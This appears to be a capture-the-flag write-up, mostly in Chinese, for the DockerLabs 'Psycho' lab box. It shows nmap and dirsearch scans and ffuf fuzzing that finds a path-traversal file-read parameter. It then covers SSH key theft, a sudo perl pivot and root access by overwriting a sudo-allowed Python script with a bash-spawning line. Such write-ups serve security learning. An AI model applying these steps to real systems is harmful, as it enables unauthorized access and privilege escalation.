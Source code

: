 ```yaml
---
title: "DockerLabs-Psycho"
date: 2025-02-21
categories: 
  - "dockerlabs"
tags: 
  - "dockerlabs"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 172.17.0.2 -sV   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-21 15:07 CST
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.45 seconds
```

## Dirsearch

```
[root@kali] /home/kali/Psycho  
❯ dirsearch -u 172.17.0.2 -t 50     
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Psycho/reports/_172.17.0.2/_25-02-21_15-09-17.txt

Target: http://172.17.0.2/

[15:09:17] Starting: 
[15:09:18] 403 - 275B  - /.ht_wsr.txt                                      
[15:09:18] 403 - 275B  - /.htaccess.bak1                                   
[15:09:18] 403 - 275B  - /.htaccess.orig
[15:09:18] 403 - 275B  - /.htaccess.sample                                 
[15:09:18] 403 - 275B  - /.htaccess.save
[15:09:18] 403 - 275B  - /.htaccess_extra                                  
[15:09:18] 403 - 275B  - /.htaccess_sc                                     
[15:09:18] 403 - 275B  - /.htaccessOLD
[15:09:18] 403 - 275B  - /.htaccessOLD2                                    
[15:09:18] 403 - 275B  - /.htm                                             
[15:09:18] 403 - 275B  - /.html
[15:09:18] 403 - 275B  - /.htaccessBAK
[15:09:18] 403 - 275B  - /.htpasswds                                       
[15:09:18] 403 - 275B  - /.httr-oauth                                      
[15:09:18] 403 - 275B  - /.htpasswd_test                                   
[15:09:18] 403 - 275B  - /.php                                             
[15:09:21] 403 - 275B  - /.htaccess_orig                                   
[15:09:24] 301 - 309B  - /assets  ->  http://172.17.0.2/assets/            
[15:09:24] 200 - 458B  - /assets/                                          
[15:09:38] 403 - 275B  - /server-status                                    
[15:09:38] 403 - 275B  - /server-status/                                   
                                                                             
Task Completed                 
```

在网页源码底部发现了一个**ERROR**，意味着是不是他的调用方式有什么问题？或者什么参数有问题？

![](./images/image-43-1024x663-1.webp)

## FFUF

尝试对**index.php**的参数进行枚举，发现存在**secret**这个参数，可以进行**LFI**读取文件

```
[root@kali] /home/kali  
❯ ffuf -w ./Desktop/fuzzDicts/paramDict/parameter.txt  -u 'http://172.17.0.2/index.php?FUZZ=../../../../../../etc/passwd' --fs 2596

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2/index.php?FUZZ=../../../../../../etc/passwd
 :: Wordlist         : FUZZ: /home/kali/Desktop/fuzzDicts/paramDict/parameter.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 2596
________________________________________________

secret                  [Status: 200, Size: 3870, Words: 678, Lines: 89, Duration: 0ms]
:: Progress: [5846/5846] :: Job [1/1] :: 57 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```

用**curl**发送命令然后获取到了**/etc/passwd**的内容

![](./images/image-45.png)

这里发现了两个用户名：**vaxei**、**luisillo**

尝试读取**ssh**密钥文件

![](./images/image-44.png)

成功拿到**vaxei**用户的**shell**，用**LFI**无法读取到**luisillo**的**ssh**密钥

![](./images/image-46.png)

## Privilege Escalation

查看用户的特殊权限命令

可以发现**vaxei**能以**luisillo**的身份运行**perl**命令

```
vaxei@4b3a9fd95001:~$ sudo -l
Matching Defaults entries for vaxei on 4b3a9fd95001:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User vaxei may run the following commands on 4b3a9fd95001:
    (luisillo) NOPASSWD: /usr/bin/perl
```

在[perl | GTFOBins](https://gtfobins.github.io/gtfobins/perl/)中可以看到

![](./images/image-47.png)

因此可以将用户提升为**luisillo**

![](./images/image-48.png)

查看**luisillo**的特殊命令

```
luisillo@4b3a9fd95001:~$ sudo -l
Matching Defaults entries for luisillo on 4b3a9fd95001:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 4b3a9fd95001:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
```

查看**/opt/paw.py**的具体内容

```
luisillo@4b3a9fd95001:~$ cat /opt/paw.py 
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()
```

其实这里有很多种解法，我就写一个比较简单的。

**luisillo**是可以在**/opt/**目录下进行任意操作的，包括删除文件，添加文件

因此可以重写这个**paw.py**

```
luisillo@4b3a9fd95001:/opt$ rm paw.py
luisillo@4b3a9fd95001:/opt$ echo 'import os; os.system("/bin/bash")' >> paw.py
```

然后执行即可拿到**root**权限

![](./images/image-49.png)

其余的解法我看了一下，大概也就是修改引入包，因为**python**的引入包策略是同级目录优先，如果统计目录下有**subprocess.py**这种，会优先使用它。如果将命令写入，也是可以直接获取到**root**权限。这种在无法修改**paw.py**的情况下是可以使用的

## Summary

从网页源码猜测得到，存在**LFI**文件包含漏洞，使用**wfuzz**对路径参数进行爆破，读取**vaxei**的**ssh**密钥成功拿到**Shell**权限。利用**vaxei**作为跳板得到**luisillo**的权限，并且通过覆写**paw.py**成功越权

第一次使用这个靶场, 使用**docker**搭在本地的话,操作起来就比较方便,也没有什么延迟
